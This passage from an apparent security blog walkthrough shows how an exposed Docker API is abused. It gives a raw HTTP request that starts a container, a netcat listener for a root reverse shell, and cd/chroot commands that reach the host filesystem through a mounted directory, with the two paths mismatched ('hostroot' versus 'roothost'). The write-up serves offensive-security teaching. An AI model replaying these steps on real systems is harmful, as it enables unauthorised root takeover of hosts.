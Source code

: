 Last but not least, starting the container:
```http
POST /containers/89a1eeb4c9a48a4d3a7bc300fc0b6164d32f2bd65b84e15ef60954b8bb38125d/start HTTP/1.1
Host: 10.0.5.10:4000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 4

{}
```
Make sure that you set up a netcat listener to receive the reverse TCP connection before starting the container.

A success response will typically look like the following:
```http
HTTP/1.1 204 No Content
Server: nginx/1.10.3 (Ubuntu)
Date: Tue, 03 Oct, 2017 15:56:16 GMT
Content-Type: application/json
Connection: Close
```
And we should be receiving a new connection with a root reverse shell. Hurraaay!
<img src="https://github.com/fusionx3/fusionx3.github.io/blob/master/images/docker_2.png?raw=true" width="800" height="200" />


**Don't do the "root dance" just yet, because we're still confined to the container.**

<br>
## **Escalating to the Host's Root**

Now, to the fun part! As mentioned above, we _mapped_ the host's root directory to a directory inside the container, which we called "hostroot". So, by simply nagivating to this directory, we are able to view the entire filesystem of the **host**.

`cd /root/hostroot`

For more convenience and to avoid getting confused and accidentally browse files on the container rather than the host, we can use _chroot_ command to change the current root directory:

`chroot /root/roothost`
